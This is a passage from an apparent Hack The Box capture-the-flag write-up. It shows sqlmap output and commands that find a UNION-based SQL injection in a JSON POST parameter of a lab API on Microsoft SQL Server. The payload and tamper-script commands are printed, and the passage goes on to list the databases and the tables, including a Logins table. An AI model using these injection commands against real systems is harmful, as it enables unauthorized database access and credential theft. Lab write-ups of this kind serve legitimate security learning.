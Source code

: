 ```
[14:06:42] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:06:59] [INFO] target URL appears to have 5 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[14:09:04] [INFO] (custom) POST parameter 'JSON #1*' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[14:09:04] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: {"name":"-3379' UNION ALL SELECT 35,35,35,CHAR(113)+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(107)+CHAR(112)+CHAR(76)+CHAR(117)+CHAR(111)+CHAR(66)+CHAR(108)+CHAR(103)+CHAR(98)+CHAR(83)+CHAR(87)+CHAR(70)+CHAR(65)+CHAR(73)+CHAR(90)+CHAR(81)+CHAR(87)+CHAR(88)+CHAR(84)+CHAR(73)+CHAR(112)+CHAR(70)+CHAR(74)+CHAR(83)+CHAR(120)+CHAR(80)+CHAR(106)+CHAR(68)+CHAR(116)+CHAR(77)+CHAR(72)+CHAR(112)+CHAR(76)+CHAR(85)+CHAR(72)+CHAR(76)+CHAR(71)+CHAR(79)+CHAR(70)+CHAR(89)+CHAR(113)+CHAR(113)+CHAR(98)+CHAR(118)+CHAR(113),35-- kfPu"}
---
[14:09:26] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[14:09:26] [INFO] testing Microsoft SQL Server
[14:09:29] [INFO] confirming Microsoft SQL Server
[14:09:41] [INFO] the back-end DBMS is Microsoft SQL Server
back-end DBMS: Microsoft SQL Server 2017
[14:09:41] [INFO] fetched data logged to text files under '/root/.sqlmap/output/megacorp.local'

[*] ending @ 14:09:41 /2020-03-21/
```

These are the databases.

```
# sqlmap --batch --dbms=mssql --delay=3 --data="{\"name\":\"*\"}" --url=http://megacorp.local/api/getColleagues --tamper=multimaster --technique=U --dbs
...
[*] Hub_DB
[*] master
[*] model
[*] msdb
[*] tempdb
```

These are the tables in `Hub_DB`.

```
# sqlmap --batch --dbms=mssql --delay=3 --data="{\"name\":\"*\"}" --url=http://megacorp.local/api/getColleagues --tamper=multimaster --technique=U --tables -D Hub_DB
...
Database: Hub_DB
[2 tables]
+------------+
| Colleagues |
| Logins     |
+------------+
```


[1]: https://www.hackthebox.eu/home/machines/profile/232
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/
